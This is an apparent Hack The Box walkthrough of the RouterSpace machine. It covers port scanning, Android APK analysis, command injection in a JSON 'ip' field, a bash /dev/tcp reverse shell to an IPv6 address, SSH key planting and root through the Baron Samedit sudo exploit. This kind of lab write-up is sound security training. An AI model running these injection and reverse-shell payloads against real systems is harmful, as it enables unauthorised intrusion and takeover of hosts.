 # HTB: RouterSpace Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.148
nmap -p 22,80 -sCV 10.10.11.148
```
- Ports Open: 22 (SSH), 80 (HTTP)
- Unknown SSH version with fingerprint
- HTTP returns headers like `X-Powered-By: RouterSpace`, no default CMS or tech found.

### Website - Port 80
- Landing page offers a **RouterSpace.apk** for download
- X-Headers are custom, possibly unique to this server

### Directory Brute Force
```
feroxbuster -u http://10.10.11.148 -X 'Suspicious activity detected !!!'
```
- `/cgi-bin`, `/admin`, `/images`, `/scripts`, `/includes` all found
- Nothing actionable from static analysis alone

---

## Android App Analysis

### APK Static Analysis
- Extract using apktool:
```
apktool d RouterSpace.apk
```
- Found domain `routerspace.htb` in cert
- App uses React Native
- Key JavaScript file: `assets/index.android.bundle`

### APK Dynamic Analysis
- Used **Genymotion** with API 27 to bypass HTTPS issues
- Set up proxy to forward traffic through Burp
- Observed endpoint:
```
POST /api/v4/monitoring/router/dev/check/deviceAccess
```
- Payload: `{ "ip": "<input>" }`

### SSTI / Command Injection
- Endpoint is vulnerable to **Command Injection**
- Successful payload: `{"ip": "$(id)"}`
- RCE confirmed, reverse shell blocked by firewall
- **IPv6 bypass** worked:
```
$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')
```

### Establish SSH Access
- Used RCE to inject SSH key into `/home/paul/.ssh/authorized_keys`
- Connected as `paul` via SSH

---

## Privilege Escalation

### Enumeration with LinPEAS
- CVE findings:
  - **CVE-2021-3156 (Baron Samedit)**: vulnerable
  - **CVE-2021-4034 (PwnKit)**: false positive (not SUID)
  - **CVE-2021-3560 (Polkit)**: missing components
  - **CVE-2021-22555 (NetFilter)**: exploit failed

### Exploit CVE-2021-3156 (Baron Samedit)
- Cloned PoC: https://github.com/CptGibbon/CVE-2021-3156
- Built locally and transferred to target
```
make
./exploit
```
- Got root shell!


## Notes
- Key concepts: APK reverse engineering, React Native apps, Genymotion + Burp proxy, command injection, classic sudo vulnerability (Baron Samedit)
- IPv6 reverse shell bypass was a smart trick
- Emulation + dynamic analysis was the hardest setup
